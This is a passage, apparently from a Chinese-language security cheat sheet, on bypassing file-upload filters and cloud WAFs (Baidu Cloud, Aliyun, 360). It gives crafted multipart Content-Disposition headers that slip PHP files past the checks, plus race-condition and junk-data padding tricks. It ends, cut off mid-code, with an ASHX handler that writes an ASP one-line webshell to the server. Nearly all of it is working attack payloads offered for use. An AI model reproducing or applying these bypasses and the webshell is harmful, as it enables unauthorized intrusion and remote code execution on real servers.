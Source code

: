 ```
原内容：Content-Disposition: form-data; name="up_picture"; filename="xss.php"
添加回车
Content-Disposition: form-data; name="up_picture"; filename="xss.php"
```

#### 百度云上传绕过

```
百度云绕过就简单的很多很多，在对文件名大小写上面没有检测php是过了的，Php就能过，或者PHP，一句话自己合成图片马用Xise连接即可。Content-Disposition: form-data; name="up_picture"; filename="xss.jpg .Php"
```

#### 阿里云上传绕过

```
源代码：Content-Disposition: form-data; name="img_crop_file"; filename="1.jpg .Php"Content-Type: image/jpeg
修改如下：Content-Disposition: form-data; name="img_crop_file"; filename="1.php"
没错，将=号这里回车删除掉Content-Type: image/jpeg即可绕过。
```

#### 360主机上传绕过

```
源代码:Content-Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png"Content-Type: image/png
绕过内容如下：Content- Disposition: form-data; name="image"; filename="085733uykwusqcs8vw8wky.png
Content-Disposition 修改为 Content-空格Disposition
```

#### 多次上传Win特性绕过

```
多次上传同一个文件，windows会自动更新补全TEST (1).php。有时会触发条件竞争，导致绕过。
```

#### 垃圾数据填充绕过

```
修改HTTP请求，再之中加入大量垃圾数据。
```

#### ashx上传绕过

```
cer,asa,cdx等等无法使用时候。
解析后就会生成一个test.asp的马，你就可以连接这个test.asp  密码为:put
<%@ WebHandler Language="C#" Class="Handler" %>
using System;
using System.Web;
using System.IO;
public class Handler : IHttpHandler {    

	public void ProcessRequest (HttpContext context) {     
	
	context.Response.ContentType = "text/plain";   
	
	//这里会在目录下生成一个test.asp的文件  
	
	StreamWriter file1= File.CreateText(context.Server.MapPath("test.asp"));       
	//这里是写入一句话木马   密码是：ptu
	
	file1.Write("<%response.clear:execute request("put"):response.End%>");        
	file1.Flush();
	
	file1.Close();    
	 }    
	 public bool IsReusable {        
```
